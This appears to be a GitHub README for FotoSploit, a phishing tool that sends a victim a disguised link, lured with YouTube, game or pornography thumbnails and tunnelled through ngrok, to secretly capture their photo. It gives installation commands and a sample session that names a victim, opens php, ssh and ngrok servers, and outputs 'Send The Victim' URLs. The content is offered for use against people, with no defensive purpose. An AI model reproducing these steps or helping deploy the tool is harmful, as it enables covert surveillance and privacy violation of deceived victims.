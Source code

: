 # FotoSploit
    FotoSploit is an exploit  assembling photo
    from our victim in a fake link {phishing}
    
    FotoSploit in
    Kali linux [nethunter]
    UserLand
    ubuntu
    parrot
    
# Installation 
    pkg update && pkg upgrade -y
    pkg install -y php
    pkg install -y python2
    pkg install -y git
    cd $HOME
    git clone https://github.com/HackyAbinash/FotoSploit 
    cd FotoSploit
    ls
    bash install.sh 
    ./FotoSploit 
# Installation FotoSploit premium
    pkg update && pkg upgrade -y
    pkg install -y php
    pkg install -y python2
    pkg install -y git
    CD $HOME
    git clone https://github.com/HackyAbinash/FotoSploit 
    cd FotoSploit 
    ls
    bash install.sh --install --premium
    ./FotoSploit [option]
    
# Eye!!!
     The link carrier by serveo or ngrok informed you that
     in messenger [facebook] does not take the photo of the victim :(
     the link only takes the photo in Whatzapp or in telegram or other chat
     okay!

.
# Usage
    
      _____________________________________________________________________
                 ___             _,.---,---.,_
                 |           ,;~'             '~;,
                 |         ,;                     ;,
        Frontal  |        ;                        ; ,--- Supraorbital Foramen
         Bone    |       ,'                        /'
                 |      ,;                       /' ;,
                 |      ; ;      .          . <-'  ; |
                 |__   | ;   ______       ______   ;<----- Coronal Suture
                 ___   |  '/~ ~ . ~ ~\'  |
                |      |  ~  ,-~~~^~, | ,~^~~~-,  ~  |
      Maxilla,  |       |   |        }:{        | <------ Orbit
     Nasal and  |       |   l       / | \       !   |
     Zygomatic  |      .~  (__,.-- .^. --.,__)  ~.
       Bones    |      |    ----;' / | \  ;-<--------- Infraorbital Foramen
             |__       \__.       \/^\/       .__
                  ___    V| \                 / |V <--- Mastoid Process
                  |       | |T~\___!___!___/~T| |
                  |       | | IIII_I_I_I_IIII | |
         Mandible |       |  \ III I I I III,/  |
                  |        \    ~~~~~~~~~~
                 |          \   .       . <-x---- Mental Foramen
                  |__          \.    ^    .
                                 ^~~~^~~~^
    _________________________________________________________________            
                    Created by @HackyAbinash 
                      Usage: show options

     FotoSploit> show options
     ===============
     Cesar Hack Gray
     ===============
     
     Comandos          descripsion
     
     show options      opciones
     set foto          [option]
     set title url     [Titulo]
     set view          [FACEBOOK][YOUTUBE]
     GO                Comenzar
     run               Comenzar
     exit              Salir
     
     
     set title urlHackyAbinash (example)
     set foto [youtube] [FreeFire] [PUBG]
     [Anime] [pornografia] [Bokep] [facebook]
     [/sdcard/example.jpg]
     
     
     SET FOTO :
     SET VIEW :
     SET TITLE URL :
     
     
     FotoSploit> set foto /sdcard/foto.jpg
     [+] FOTO => /sdcard/foto.jpg
     FotoSploit> set title url Name-Victim
     [+] Name => Name-Victim
     FotoSploit> set view YOUTUBE
     [+] View => www.youtube.com
     FotoSploit> GO
     [+] Uploading -> /sdcard/foto.jpg...
     [+] Opening Servers ...
     [+] Opening Server  php...
     [+] Opening Server  ssh...
     [+] Opening Server  ngrok..
     [+] Downloading ngrok full....
     [+] Getting  URLs..
     [+] Service Support  = https://t.me/HackyAbinash
     [+] Send The Victim  = http://localhost:5756
     [+] Send The Victim  = https://1d16900a.ngrok.io
     [+] Interecting with the victim ...

# Remember that the link just takes the picture in whatzapp or in telegram

           
              
              
              
     
 
              
                      
  
 
 

   

   
   
   
   
   
   

   







